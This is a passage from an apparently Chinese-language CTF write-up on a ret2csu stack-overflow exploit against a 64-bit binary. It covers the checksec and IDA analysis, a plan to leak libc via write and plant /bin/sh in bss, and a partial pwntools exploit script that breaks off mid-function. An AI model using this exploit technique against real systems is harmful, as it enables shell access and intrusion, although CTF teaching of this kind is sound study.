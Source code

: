 这个构造感觉还是有点不懂，不过问题不大，我们用exp来解决这个题目，然后分析下，基本就能完整理解了。

首先还是套路三部曲:

**1.checksec**

[![](https://p4.ssl.qhimg.com/t01315ded6eae188003.png)](https://p4.ssl.qhimg.com/t01315ded6eae188003.png)

没看栈保护、64位程序

**2.ida**

[![](https://p2.ssl.qhimg.com/t015f38ede1b189351e.png)](https://p2.ssl.qhimg.com/t015f38ede1b189351e.png)

这里用了程序加载了 write,read,同时很明显read函数对buf处读取存在栈溢出，因为0x200&gt;0x80

我们简单搜索下，发现这个题目没有后门函数，也没有`/bin/sh`字符串，这个套路其实我们之前也遇到过了。

就是通过栈溢出让write输出libc的基地址，然后用read函数往bss段里面写入`/bin/sh`然后在调用syscall

即可完成PWN的过程。

**3.编写exp**

```
#!/usr/bin/python
# -*- coding:utf-8 -*-

from pwn import *
# from libformatstr import *
from LibcSearcher import LibcSearcher

debug = True
# 设置调试环境
context(log_level = 'debug', arch = 'amd64', os = 'linux')
# context.terminal = ['/usr/bin/tmux', 'splitw', '-h']

if debug:
    sh = process("./level5")
    elf=ELF('./level5')
else:
    link = "x.x.x.x:xx"
    ip, port = map(lambda x:x.strip(), link.split(':'))
    sh = remote(ip, port)
    elf=ELF('./quantum_entanglement')


write_got = elf.got['write']
read_got = elf.got['read']
main_addr = 0x400544
bss_base = elf.bss()
csu_end_addr= elf.search('x48x8bx5cx24x08').next()
csu_front_addr = elf.search('x4cx89xfa').next()

log.success("csu_end_addr =&gt; `{``}`".format(hex(csu_end_addr)))
log.success("csu_front_addr =&gt; `{``}`".format(hex(csu_front_addr)))
log.success("write_got =&gt; `{``}`".format(hex(write_got)))
log.success("read_got =&gt; `{``}`".format(hex(read_got)))
log.success("main_addr =&gt; `{``}`".format(hex(main_addr)))
log.success("bss_base =&gt; `{``}`".format(hex(bss_base)))

def csu(rbx, rbp, r12, r13, r14, r15, last):
    # pop rbx,rbp,r12,r13,r14,r15
    # rbx should be 0,
    # rbp should be 1,enable not to jump
    # r12 should be the function we want to call
    # rdi=edi=r13d
```